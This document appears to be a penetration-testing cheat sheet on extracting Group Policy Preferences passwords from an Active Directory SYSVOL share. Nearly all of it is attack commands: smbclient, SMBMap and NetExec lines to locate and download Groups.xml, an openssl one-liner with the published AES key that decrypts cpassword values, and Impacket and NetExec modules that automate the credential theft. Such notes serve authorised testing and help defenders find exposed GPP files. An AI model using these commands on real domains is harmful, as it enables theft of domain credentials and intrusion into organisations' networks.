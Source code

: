# Unix Shell

## 01 - Manual

### 1.1 - Samba Suite Utils

Authentication syntax.

```
$ smbclient -U "<username>%<password>" //<IP>/SYSVOL

$ smbclient -U "<username>" --password="<password>" //<IP>/SYSVOL
```

Retrieve XML files recursively.

```
smb: \> cd <domain_name>/Policies

smb: \> recurse on

smb: \> prompt off

smb: \> mget *.xml
```

### 1.2 - SMBMap

```
$ smbmap -u "<username>" -p "<password | nt_hash>" [-d <domain>] -H <IP> -F "Groups.xml" --search-path "SYSVOL\"

$ smbmap -u "<username>" -p "<password | nt_hash>" [-d <domain>] -H <IP> --download "SYSVOL\path\to\remote\Groups.xml"
```

### 1.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --spider SYSVOL --pattern Groups.xml

$ netexec smb -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file /path/to/remote/Groups.xml
```

## 02 - Extract Credentials

### 2.1 - Manual

```
$ basenc --base64 -d <<< '<base64_encoded_password>' | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

### 2.2 - Impacket

```
$ Get-GPPPassword.py [<domain>/]<username>:"<password>"@<IP>

$ Get-GPPPassword.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

### 2.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -M gpp_autologin

$ netexec smb -u "<username>" -p "<password>" [-d <domain> | --local-auth] -M gpp_password
```

---
## References

 - [VK9 Security: Exploiting GPP SYSVOL (Groups.xml)](https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/)